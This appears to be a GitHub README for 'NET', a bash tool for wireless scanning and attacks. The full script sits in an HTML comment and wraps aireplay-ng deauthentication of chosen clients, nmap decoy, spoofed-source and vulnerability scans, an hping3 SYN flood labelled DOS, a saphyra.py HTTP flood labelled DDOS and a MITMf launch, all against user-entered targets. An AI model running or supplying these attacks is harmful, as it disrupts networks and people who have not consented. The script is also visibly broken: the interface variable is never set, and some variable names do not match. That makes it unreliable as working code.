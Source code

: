<!-- Badges -->
![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) <!-- Kali bagdge--> ![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white) <!-- Linux bagdge-->![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)

![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)
<!-- Begin the file -->

# **NET**

![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)

#### NET is a tool that automates various options for network scanning and attacking, specifically for wireless networks

![NET-Tool](./images/NET_tool_image.jpg "NET tool Menu ")

### You can also type " c " to clear the terminal


![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)

# **installation**
```terminal

git clone https://github.com/Mooshaah/net-tool.git

cd net-tool
chmod u+x net
./net
```
### hint : you need to cd into the program directory and type " ./net " every time you want to run the program
















<!-- #!/bin/bash

Scanner_menu(){
echo -e "\e[36m=====================================================
     A          EEEEEEE   H       H
    A A         E         H       H
   A   A        E         H       H
  AAAAAAA       EEEEE     HHHHHHHHH
 A       A      E         H       H
A         A     EEEEEEE   H       H
    
=====================================================
1) Check for a Wirless network card
2) Set your wirless network card to \e[33mMoniter Mode\e[36m
3) scan for available routers
4) Launch a De-Auth Attack
5) scan for IP addresses & open ports using \e[35mNMAP\e[36m
6) Launch a \e[31mDOS\e[36m attack
7) Launch a \e[31mDDOS\e[36m attack
8) Launch \e[33mWifi\e[36m\e[32mte\e[36m attack
9) quit
=====================================================\e[0m"
}

NMAP(){
echo -e "\e[35m=====================================================
	 //\\      // ||\\  //||    //\\    ||===\\
	//  \\    //  || \\// ||   //  \\   ||   ||
 ===== //    \\  //   ||     ||  //====\\  ||===// =====
      //      \\//    ||     || //      \\ ||
=====================================================
1) Host scan 
2) Preform an OS scan
3) Scan for MAC & IP addersses
4) Port scan
5) Decoy scan
6) Scan for vulnerabilities
7) Scan using spoofed ip address
8) Return to main menu
=====================================================\e[0m"
}

port(){
echo -e "\e[35m====================Port Menu========================
1) Scan a specific port
2) Scan for all ports
3) Scan a range of ports
4) Return main menu
=====================================================
\e[0m"
}

Scanner_menu

# wifi_interface=$(iwconfig 2>/dev/null | grep '^\w' | cut -d ' ' -f 1)

while true; do
read -p "Choose an option or type 9 to quit!: " SCANNER_OPTION
case $SCANNER_OPTION in
	[1])
		
		if [ -z "$wifi_interface" ]; then
    			echo "No wireless interface found."
			Scanner_menu # Displays the menu after every option entered by the user
		else
			iwconfig 2>/dev/null | awk '!/^(lo|eth0)/'
		fi
		;;
	[2])
		airmon-ng start $wifi_interface  
		Scanner_menu
		echo -e  "\e[31mNOTTE YOU HAVE TO RESTART THE PROGRAM AFTER THIS PROCESS !\e[0m"

		;;
	[3])
		airodump-ng $wifi_interface
		Scanner_menu
		;;
	[4])
		read -p "Enter the number of Deauth Packets: " DEAUTH
		read -p "Enter the target network MAC/BSSID: " ROUTER_MAC
		read -p "Enter the target client MAC/STATION: " CLIENT_MAC

		if [ -z "$DEAUTH" ]
		then
			 echo "The number of De-auth packet to send is empty, pleae insert any number for the packets to be sent !."

		 else

			if [ -z "$ROUTER_MAC" ]
			then
				echo "Router MAC/BSSID is empty please insert the BSSID of the target router ! "
			else
				if [ -z "$CLIENT_MAC" ]
				then
		
					echo "Client MAC is empty !, please enter the MAC/STATION of the client you want to attack !"
				else
		
					echo " Please enter a target MAC/STATION ! " | read -p $CLIENT_MAC
					aireplay-ng --deauth $DEAUTH -a $ROUTER_MAC -c $CLIENT_MAC $wifi_interface
					Scanner_menu
		fi
			fi
		fi
			;;

		[5])
			#Printing the nmap menu
			NMAP
			#Taking user input
			while true; do
			read -p "Enter an option of the menu above: " NMAP_OPTION
			case $NMAP_OPTION in
			   [1])
		           	   read -p "Enter the ip adderss: " IP
				   nmap $ip
				   ;;
			   [2])
				   read -p "Enter the ip adderss:" OS_IP
				   nmap $OS_IP
				   ;;
			   [3])
				   read -p "Enter the range of ips to be scanned: " IP_RANGE
				   nmap -sn $IP_RANGE
				   ;;
			   [4])

			   while true; do
				   port
				   read -p "choose an option from 1-4: " PORT_MENU
				   if [ $PORT_MENU -eq 1 ]
				   then
					   read -p "Enter the port you want to scan: " PORT
					   read -p "Enter the target IP: " TAR_IP
					   nmap -p $PORT $TAR_IP
				   elif [ $PORT_MENU -eq 2 ]
				   then
					   read -p "Enter the Target IP: " TARGET_IP
					   nmap -p- $TARGET_IP
				   elif [ $PORT_MENU -eq 3 ]
				   then
					   echo "EX: from 1-100"
					   read -p "Enter the range of ports you want to scan: " RANGE
					   read -p "Enter the target IP: " target_ip
				           nmap -p $RANGE $target_ip
				   elif [ $PORT_MENU -eq 4 ]
				   then
				  	NMAP
					break
				   fi
			   done
				   ;;
			   [5])
				   read -p "Enter the first fake IP: " DECOY1
				   read -p "Enter the second fake IP: " DECOY2
				   read -p "Enter the third fake IP: " DECOY3
				   nmap -sS -Pn  -D $DECOY1 $DECOY2 $DECOY3
				   ;;

			   [6])
				   read -p "Enter the targer IP: " ip
				   nmap -sV --script vuln $ip
				   ;;
			   [7])
				   read -p "Enter the spoofed ip: " SPOOFED_IP
				   read -p "Enter the target ip: " P
				   nmap -sS -S $SPOOFED_IP $P
				   ;;
			   [c])
				   clear
				   NMAP
				   ;;
			   [8])
				   Scanner_menu
				   break

		   esac
	   done
		   ;;
	   [6])
		   #DOS
		   read -p "Enter the port of you're targeting: " DOS_PORT
		   read -p "Enter the IP of the network you're targeting: " DOS_IP
		   hping3 -i u1 -S -p $DOS_PORT  $DOS_IP
		   ;;
	   [7])
		   #DDOS
		   read -p "Enter the ip address of the target network to flood: " DDOS_IP
		   python2 saphyra.py http://$DDOS_IP
		   ;;
	   [8])
		   #Wifite

			if which wifite >/dev/null; then
				cd ~/MTIMf
				python2 ./mitmf
			else
				apt install wifite
			fi
		   
		   ;;

	[9]| [quit])
		exit
		;;
	[c])
		clear
		Scanner_menu
		;;
	*)
		echo "Please choose an option from 1 - 5: "
		;;
esac
done
 -->